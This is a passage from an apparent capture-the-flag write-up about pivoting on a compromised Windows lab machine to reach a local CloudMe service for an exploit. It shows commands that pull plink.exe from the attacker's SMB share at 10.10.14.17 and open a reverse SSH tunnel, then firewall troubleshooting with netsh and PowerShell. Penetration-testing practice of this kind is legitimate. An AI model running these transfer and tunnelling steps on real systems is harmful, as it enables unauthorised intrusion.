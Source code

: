 The first address is the expected ROP so the exploit should work! However, to use this exploit, some port fowarding is needed to get access to the service running on `127.0.0.1:8888` on the target:

```bash
# on kali, find Win32 SSH binary & copy it over 
find / -iname plink.exe 2>/dev/null
cp /usr/share/windows-resources/binaries/plink.exe .
# on kali, host binary
sudo impacket-smbserver -smb2support BUBBA .
# on target, download binary using SMB
robocopy \\10.10.14.17\BUBBA\ . plink.exe /copy:DT /w:1 /r:1 /v
# on target, use remote port fowarding to get access to CloudMe on port 8888
# NOTE: set <password> to your machine's password
.\plink.exe -ssh -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
```

However, this does not work with the following error:

![plink1](./buff/plink1.png)

Maybe there is a firewall rule blocking outbound TCP on port 22? It cannot be a network connectivity issue since there is a working reverse shell on the target... Trying the connection again but with a `tcpdump` running does not show any packet activity coming to Kali:

```bash
sudo tcpdump -i tun0 port 22
```

Looking at the Windows Firewall does not show any explicit rules blocking this connection using `netsh`:

```bash
# looking for SSH or port 22
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all 
```

Also, trying PowerShell does not show anything helpful either:


```powershell
# looking for SSH or port 22
Get-NetFirewallRule | 
where { $_.Enabled -eq $True } | 
Format-Table -Property Name,
                       DisplayName,
                       DisplayGroup,
                       @{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
                       @{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},
                       @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
                       @{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
                       Enabled,
                       Profile,
                       Direction,
                       Action
```
